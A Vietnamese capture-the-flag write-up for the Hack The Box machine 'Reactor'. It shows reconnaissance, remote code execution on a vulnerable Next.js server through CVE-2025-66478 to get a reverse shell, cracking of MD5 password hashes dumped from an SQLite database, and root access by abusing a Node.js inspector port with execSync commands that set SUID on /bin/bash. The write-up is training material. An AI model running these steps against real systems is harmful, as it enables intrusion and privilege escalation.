

## Reconnaissance and Scanning

```bash
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 9.6p1 Ubuntu 3ubuntu13.16 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 ce:fd:0d:82:c0:23:ed:6e:4b:ea:13:fa:4f:ea:ef:b7 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBIoh32XcLYi0Kdad12SajqVyUVXfkDPaB7zZCDCMIJc+fv8JUJwyQRoqX/91+p6uD75Ggdp4VNzA7WasIkyo/4U=
|   256 f8:44:c6:46:58:7a:39:21:ef:16:44:e9:58:c2:f3:62 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPws9RyzoCW2cXzOFxeZCCt8rWcNu2umX2kqLLK6T+7H
3000/tcp open  ppp?    syn-ack ttl 63
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Vary: RSC, Next-Router-State-Tree, Next-Router-Prefetch, Next-Router-Segment-Prefetch, Accept-Encoding
|     x-nextjs-cache: HIT
|     x-nextjs-prerender: 1
|     x-nextjs-stale-time: 4294967294
|     X-Powered-By: Next.js
|     Cache-Control: s-maxage=31536000, 
|     ETag: "p02u6gnhufd8t"
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 17175
|     Date: Tue, 02 Jun 2026 16:08:16 GMT
|     Connection: close
|     <!DOCTYPE html><html lang="en"><head><meta charSet="utf-8"/><meta name="viewport" content="width=device-width, initial-scale=1"/><link rel="stylesheet" href="/_next/static/css/414e1be982bc8557.css" data-precedence="next"/><link rel="preload" as="script" fetchPriority="low" href="/_next/static/chunks/webpack-db0a529a99835594.js"/><script src="/_next/static/chunks/4bd1b696-80bcaf75e1b4285e.js" async=""></script><script src="/_next/static/chunks/517-d083b552e04dead1.js" async=""></script><script s
|   HTTPOptions, RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     vary: RSC, Next-Router-State-Tree, Next-Router-Prefetch, Next-Router-Segment-Prefetch
|     Allow: GET
|     Allow: HEAD
|     Cache-Control: private, no-cache, no-store, max-age=0, must-revalidate
|     Date: Tue, 02 Jun 2026 16:08:17 GMT
|     Connection: close
|   Help, NCP, RPCCheck: 
|     HTTP/1.1 400 Bad Request
|_    Connection: close
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3000-TCP:V=7.98%I=7%D=6/2%Time=6A1EFFF0%P=x86_64-pc-linux-gnu%r(Get
SF:Request,1A5E,"HTTP/1\.1\x20200\x20OK\r\nVary:\x20RSC,\x20Next-Router-St
SF:ate-Tree,\x20Next-Router-Prefetch,\x20Next-Router-Segment-Prefetch,\x20
SF:Accept-Encoding\r\nx-nextjs-cache:\x20HIT\r\nx-nextjs-prerender:\x201\r
SF:\nx-nextjs-stale-time:\x204294967294\r\nX-Powered-By:\x20Next\.js\r\nCa
SF:che-Control:\x20s-maxage=31536000,\x20\r\nETag:\x20\"p02u6gnhufd8t\"\r\
SF:nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x20171
SF:75\r\nDate:\x20Tue,\x2002\x20Jun\x202026\x2016:08:16\x20GMT\r\nConnecti
SF:on:\x20close\r\n\r\n<!DOCTYPE\x20html><html\x20lang=\"en\"><head><meta\
SF:x20charSet=\"utf-8\"/><meta\x20name=\"viewport\"\x20content=\"width=dev
SF:ice-width,\x20initial-scale=1\"/><link\x20rel=\"stylesheet\"\x20href=\"
SF:/_next/static/css/414e1be982bc8557\.css\"\x20data-precedence=\"next\"/>
SF:<link\x20rel=\"preload\"\x20as=\"script\"\x20fetchPriority=\"low\"\x20h
SF:ref=\"/_next/static/chunks/webpack-db0a529a99835594\.js\"/><script\x20s
SF:rc=\"/_next/static/chunks/4bd1b696-80bcaf75e1b4285e\.js\"\x20async=\"\"
SF:></script><script\x20src=\"/_next/static/chunks/517-d083b552e04dead1\.j
SF:s\"\x20async=\"\"></script><script\x20s")%r(Help,2F,"HTTP/1\.1\x20400\x
SF:20Bad\x20Request\r\nConnection:\x20close\r\n\r\n")%r(NCP,2F,"HTTP/1\.1\
SF:x20400\x20Bad\x20Request\r\nConnection:\x20close\r\n\r\n")%r(HTTPOption
SF:s,10C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nvary:\x20RSC,\x20Next-Rout
SF:er-State-Tree,\x20Next-Router-Prefetch,\x20Next-Router-Segment-Prefetch
SF:\r\nAllow:\x20GET\r\nAllow:\x20HEAD\r\nCache-Control:\x20private,\x20no
SF:-cache,\x20no-store,\x20max-age=0,\x20must-revalidate\r\nDate:\x20Tue,\
SF:x2002\x20Jun\x202026\x2016:08:17\x20GMT\r\nConnection:\x20close\r\n\r\n
SF:")%r(RTSPRequest,10C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nvary:\x20RS
SF:C,\x20Next-Router-State-Tree,\x20Next-Router-Prefetch,\x20Next-Router-S
SF:egment-Prefetch\r\nAllow:\x20GET\r\nAllow:\x20HEAD\r\nCache-Control:\x2
SF:0private,\x20no-cache,\x20no-store,\x20max-age=0,\x20must-revalidate\r\
SF:nDate:\x20Tue,\x2002\x20Jun\x202026\x2016:08:17\x20GMT\r\nConnection:\x
SF:20close\r\n\r\n")%r(RPCCheck,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n
SF:Connection:\x20close\r\n\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Enumeration and Gaining access

### Web summary

```bash
whatweb http://10.129.245.214:3000/
```

```bash
┌──(kali㉿kali)-[~/htb/machines/Reactor]
└─$ whatweb http://10.129.245.214:3000/
http://10.129.245.214:3000/ [200 OK] Country[RESERVED][ZZ], HTML5, IP[10.129.245.214], Script, Title[ReactorWatch | Core Monitoring System], UncommonHeaders[x-nextjs-cache,x-nextjs-prerender,x-nextjs-stale-time], X-Powered-By[Next.js]
```

Dựa vào thông tin tổng quan, website được viết bằng NextJS.

### NextJS enumeration

Truy cập vào web với port 3000



![[2.png]]

Từ Wappalyzer, tìm được phiên bản của NextJS là `15.0.3`, tìm kiếm các lỗ hổng của phiên bản này trên `sploitus.com`

![[3.jpg]]

Đọc thêm về `Exploit for CVE-2025-55182`, tìm đến Source của Exploit này để đọc thêm, ở [source code](https://github.com/jctommasi/react2shellVulnApp), tôi tìm được CVE của phiên bản NextJS này là `CVE-2025-66478`.

Ở phần cuối của repo này, tôi tìm được tool để check xem web có bị dính CVE hay không.

https://github.com/assetnote/react2shell-scanner

Clone repo về kali

```bash
git clone https://github.com/assetnote/react2shell-scanner.git
```

Check theo Usage

```bash
cd react2shell-scanner
pip install -r requirements.txt
```

```bash
python3 scanner.py -u https://example.com
```

Kết quả xác nhận có tồn tại lỗ hổng trong site này

```bash
┌──(kali㉿kali)-[~/htb/machines/Reactor/react2shell-scanner]
└─$ python3 scanner.py -u http://10.129.245.214:3000/

brought to you by assetnote

[*] Loaded 1 host(s) to scan
[*] Using 10 thread(s)
[*] Timeout: 10s
[*] Using RCE PoC check
[!] SSL verification disabled

[VULNERABLE] http://10.129.245.214:3000/ - Status: 303

============================================================
SCAN SUMMARY
============================================================
  Total hosts scanned: 1
  Vulnerable: 1
  Not vulnerable: 0
  Errors: 0
============================================================
```

### CVE-2025-66478

Tìm kiếm PoC của `CVE-2025-66478`

![[4.jpg]]

https://github.com/Malayke/Next.js-RSC-RCE-Scanner-CVE-2025-66478

Phân tích repo này, bên trong nó cũng đã có sẵn scanner để detect lỗ hổng. 

Nói qua một chút về `CVE-2025-66478`, đây là một lỗ hổng Critical nằm ở Logic Deserialization của Flight Protocol nằm trong React/NextJS.

Khi Client tương tác với một Server Component hoặc Server Action, dữ liệu được truyền lên/xuống dưới định dạng chuỗi văn bản đặc biệt (`text/x-component`). Khi server tiếp nhận dữ liệu này, bộ giải mã (Parser) của Next.js sẽ chuyển chuỗi văn bản ngược thành các object trong bộ nhớ Node.js.

Tuy nhiên, việc quá tin tưởng vào Client, không có cơ chế kiểm tra object, dẫn đến việc client có thể tự định nghĩa cấu trúc nội bộ của object, bao gồm cả các thuộc tính điều hướng luồng logic. Từ đây, attacker có thể chèn các chuỗi mang ký tự đặc biệt để đánh lừa Parser, cho phép client hướng luồng gọi hàm vào các thư viện hệ thống để chạy lệnh shell.

Để thực hiện được PoC này, cần gọi POST request đã được thêm body chứa payload đến NextJS server. Bật Burp Suite và bắt request lần đầu.

![[5.jpg]]

Sử dụng [payload mặc định](https://github.com/Malayke/Next.js-RSC-RCE-Scanner-CVE-2025-66478#payload-that-can-see-command-execution-result-in-response-body-most-useful) có trong repo để kiểm tra.

![[6.jpg]]

Thay payload để lấy revershell. Tôi sử dụng `revshells.com`

![[7.jpg]]

Bật listener trên kali.

```bash
penelope -p 9001
```

Thay đổi `id` bằng payload đã tạo. Send request và quay trở lại listener

```bash
┌──(kali㉿kali)-[~/htb/machines/Reactor]
└─$ penelope -p 9001           
[+] Listening for reverse shells on 0.0.0.0:9001 -> 127.0.0.1 • 192.168.220.128 • 192.168.24.129 • 172.17.0.1 • 10.10.10.1 • 172.18.0.1 • 10.10.15.59
➤  🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
[+] [New Reverse Shell] => reactor 10.129.245.214 Linux-x86_64 👤 node(999) 😍️ Session ID <1>
[+] Upgrading shell to PTY...
[+] PTY upgrade successful via /usr/bin/python3
[+] Interacting with session [1] • PTY • Menu key F12 ⇐
[+] Session log: /home/kali/.penelope/sessions/reactor~10.129.245.214-Linux-x86_64/2026_06_03-14_56_34-442.log
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
bash-5.2$ id
uid=999(node) gid=988(node) groups=988(node)
```

## User

Khai thác các thông tin có trong user này.

Check user

```bash
bash-5.2$ ls -la /home
total 16
drwxr-xr-x  4 root     root     4096 May 18 11:40 .
drwxr-xr-x 23 root     root     4096 May 20 10:07 ..
drwxr-x---  5 engineer engineer 4096 Jun  3 18:38 engineer
drwxr-x---  2 node     node     4096 May 18 11:40 node
```

Trong máy có 2 user là `engineer` và `node`. Tuy nhiên bên trong thư mục user `node` không có flag. 

Kiểm tra working directory

```bash
bash-5.2$ pwd
/opt/reactor-app
bash-5.2$ ls -al
total 76
drwxr-xr-x  5 node node  4096 Dec 28 21:05 .
drwxr-xr-x  4 root root  4096 Apr 27 11:26 ..
drwxr-xr-x  2 node node  4096 Dec 28 20:47 app
-rw-r--r--  1 node node   276 Dec 28 21:05 .env
drwxr-xr-x  7 node node  4096 Dec 28 20:47 .next
-rw-r--r--  1 node node   172 Dec 28 20:47 next.config.js
drwxr-xr-x 30 node node  4096 Dec 28 20:47 node_modules
-rw-r--r--  1 node node   269 Dec 28 20:47 package.json
-rw-r--r--  1 node node 29329 Dec 28 20:47 package-lock.json
-rw-r-----  1 node node 12288 Dec 28 21:03 reactor.db
```

Check `reactor.db`

```bash
bash-5.2$ file reactor.db
reactor.db: SQLite 3.x database, last written using SQLite version 3045001, file counter 7, database pages 3, cookie 0x2, schema 4, UTF-8, version-valid-for 7
bash-5.2$ strings reactor.db
SQLite format 3
Mtablesensor_logssensor_logs
CREATE TABLE sensor_logs (
    id INTEGER PRIMARY KEY,
    timestamp DATETIME DEFAULT CURRENT_TIMESTAMP,
    sensor_id TEXT,
    reading REAL,
    status TEXT
9tableusersusers
CREATE TABLE users (
    id INTEGER PRIMARY KEY,
    username TEXT NOT NULL,
    password_hash TEXT NOT NULL,
    role TEXT NOT NULL,
    email TEXT
5engineer39d97110****************cd271e8eoperatorengineer@reactor.htbI
M'/admina203b221*******************b17b8administratoradmin@reactor.htb
2025-12-28 14:32:01COOLANT_FLOW@2ffffffCAUTION3
2025-12-28 14:32:01PRESSURE_01@cffffffNOMINAL4
2025-12-28 14:32:01CORE_TEMP_01@tH
NOMINAL
```

Trong db có 2 user là `engineer` với role `operator` và `admin` với role `administrator`. Password hash MD5. Dùng `Crackstation` để crack md5 này, tôi có password của `engineer`

Login SSH

```bash
┌──(kali㉿kali)-[~/htb/machines/Reactor]
└─$ ssh engineer@10.129.245.214          
The authenticity of host '10.129.245.214 (10.129.245.214)' can't be established.
ED25519 key fingerprint is: SHA256:9v9mCPC4gn2EN/IbKKwhV8KZoNVTsVPorFhlTkNByPM
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:12: [hashed name]
    ~/.ssh/known_hosts:15: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.245.214' (ED25519) to the list of known hosts.
engineer@10.129.245.214's password: 
 ____  _____    _    ____ _____ ___  ____  
|  _ \| ____|  / \  / ___|_   _/ _ \|  _ \ 
| |_) |  _|   / _ \| |     | || | | | |_) |
|  _ <| |___ / ___ \ |___  | || |_| |  _ < 
|_| \_\_____/_/   \_\____| |_| \___/|_| \_\

    ReactorWatch Core Monitoring System
    Nuclear Dynamics Corp. - Site 7
    
    AUTHORIZED PERSONNEL ONLY
Last login: Wed Jun 3 18:18:25 2026 from 10.10.15.59
engineer@reactor:~$ id
uid=1000(engineer) gid=1000(engineer) groups=1000(engineer),4(adm),24(cdrom),30(dip),46(plugdev),101(lxd)
engineer@reactor:~$ ls
user.txt
engineer@reactor:~$
```

## Privilege escalation

User `engineer` không có sudo, cũng không thể `sudo -l`, sử dụng một số phương pháp khai thác thông thường cũng không có kết quả. Tôi quyết định sử dụng `linpeas` cho đỡ mất thời gian.

Download [linpeas.sh](https://github.com/peass-ng/PEASS-ng/releases) về kali. Tạo http server tại directory chứa linpeas

```bash
python3 -m http.server 2222
```

Đẩy linpeas lên Machine và cấp quyền để chạy

```bash
wget http://10.10.15.59:2222/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

```bash
engineer@reactor:~$ wget http://10.10.15.59:2222/linpeas.sh
--2026-06-03 18:26:04--  http://10.10.15.59:2222/linpeas.sh
Connecting to 10.10.15.59:2222... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1063041 (1.0M) [application/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh                                100%[=====================================================================================>]   1.01M  2.17MB/s    in 0.5s    

2026-06-03 18:26:05 (2.17 MB/s) - ‘linpeas.sh’ saved [1063041/1063041]
engineer@reactor:~$ chmod +x linpeas.sh 
engineer@reactor:~$ ./linpeas.sh 
```

Sau khi linpeas chạy xong và phân tích kết quả, tôi nhận thấy có một port ẩn đang chạy trong local

```bash
root        1407  0.0  0.0   6824  2860 ?        Ss   16:05   0:00 /usr/sbin/cron -f -P

node        1408  1.5  3.1 11809616 126036 ?     Ssl  16:05   1:58 next-server (v15.0.3)

root        1410  0.0  1.1 1066636 47188 ?       Ssl  16:05   0:01 /usr/bin/node --inspect=127.0.0.1:9229 /opt/uptime-monitor/worker.js

root        1420  0.0  0.0   6104  2000 tty1     Ss+  16:05   0:00 /sbin/agetty -o -p -- u --noclear - linux
```

`/opt/uptime-monitor/worker.js` đang được thực thi bởi `root`. `node` được bật với flag `--inspect=127.0.0.1:9229`. Đây là tính năng V8 Inspector của Node.js, dùng để debug mã nguồn từ xa hoặc qua terminal qua cổng 9229.

Khi Node.js bật chế độ `--inspect`, bất kỳ ai có quyền kết nối đến cổng debug đều có thể kết nối vào V8 Engine để thực thi mã trực tiếp với tư cách chủ sở hữu, ở đây là `root`.

Đọc thêm trong [Hacktrick wiki](https://hacktricks.wiki/en/linux-hardening/privilege-escalation/electron-cef-chromium-debugger-abuse.html), tôi tìm thấy [RCE in NodeJS Debugger/Inspector](https://hacktricks.wiki/en/linux-hardening/privilege-escalation/electron-cef-chromium-debugger-abuse.html#rce-in-nodejs-debuggerinspector) 

Quay trở lại revershell của user `node`, kết nối đến inspector

```bash
node inspect 127.0.0.1:9229
```

Dùng `exec()` với `process.mainModule.require` để thực hiện child process chứa lệnh thực thi

```bash
exec("process.mainModule.require('child_process').exec('id')")
```

Kết quả có vẻ không thành công

```bash
debug> exec("process.mainModule.require('child_process').exec('id')")
{ _events: Object,
  _eventsCount: 2,
  _maxListeners: 'undefined',
  _closesNeeded: 3,
  _closesGot: 0,
  ... }
```

Sử dụng `execSync()` thay vì `exec()`

```bash
exec("process.mainModule.require('child_process').execSync('id').toString()")
```

Thành công in ra user id

```bash
debug> exec("process.mainModule.require('child_process').execSync('id').toString()")
'uid=0(root) gid=0(root) groups=0(root)\n'
debug>
```

Thay thế payload để set SUID sau đó thoát debug

```bash
debug> exec("process.mainModule.require('child_process').execSync('chmod u+s /bin/bash').toString()")
''
debug> .exit
```

Trở lại shell của `node`, chạy `/bin/bash` và kiểm tra user id

```bash
bash-5.2$ /bin/bash -p
bash-5.2# id
uid=999(node) gid=988(node) euid=0(root) groups=988(node)
bash-5.2# cd /root
bash-5.2# ls -la
total 44
drwx------  7 root root 4096 Jun  3 17:03 .
drwxr-xr-x 23 root root 4096 May 20 10:07 ..
-rw-------  1 root root    0 May 20 10:12 .bash_history
-rw-r--r--  1 root root 3106 Apr 22  2024 .bashrc
drwx------  2 root root 4096 May 20 09:10 .cache
drwxr-xr-x  3 root root 4096 Dec 28 20:47 .config
-rw-------  1 root root   20 May 18 13:10 .lesshst
drwxr-xr-x  3 root root 4096 Dec 28 20:54 .local
drwxr-xr-x  4 root root 4096 Dec 28 20:37 .npm
-rw-r--r--  1 root root  161 Apr 22  2024 .profile
-rw-r-----  1 root root   33 Jun  3 17:03 root.txt
drwx------  2 root root 4096 Dec 28 20:30 .ssh
bash-5.2# 
```

